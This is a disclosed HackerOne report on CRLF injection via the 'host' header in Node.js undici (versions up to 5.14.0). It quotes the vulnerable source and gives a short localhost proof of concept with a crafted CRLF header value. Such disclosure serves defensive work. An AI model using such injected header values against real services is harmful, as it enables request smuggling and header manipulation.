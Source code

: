 # CRLF Injection in Nodejs ‘undici’ via host

## Report Details
- **Report ID**: 1820955
- **URL**: https://hackerone.com/reports/1820955
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-01-03T12:18:52.302Z
- **Disclosed**: 2023-02-22T03:46:24.179Z

## Reporter
- **Username**: timon8
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** undici library should be protects HTTP headers from CRLF injection vulnerabilities. However, CRLF injection exists in the ‘host’ header of undici.request api.


**Description:**
like https://hackerone.com/reports/1664019
Source code:
lib/core/request.js:296
```javascript
function processHeader (request, key, val) {
  if (val && (typeof val === 'object' && !Array.isArray(val))) {
    throw new InvalidArgumentError(`invalid ${key} header`)
  } else if (val === undefined) {
    return
  }

  if (
    request.host === null &&
    key.length === 4 &&
    key.toLowerCase() === 'host'
  ) {
    // Consumed by Client
    request.host = val // without headerCharRegex.exec(val)
  } else if (
    request.contentLength === null &&
...
```
Example:
```javascript
import { request } from 'undici'

const unsanitizedContentTypeInput =  '12 \r\n\r\naaa:aaa'

const {
    statusCode,
    headers,
    trailers,
    body
} = await request('http://127.0.0.1:23333', {
    method: 'GET',
    headers: {
        'content-type': 'application/json',
        'host': unsanitizedContentTypeInput
    }
})

console.log('response received', statusCode)
console.log('headers', headers)

for await (const data of body) {
    console.log('data', data)
}

console.log('trailers', trailers)

```
{F2100713}

## Impact: 
```<=undici@5.14.0```

## Impact

```<=undici@5.14.0```

## Attachments
- image.png
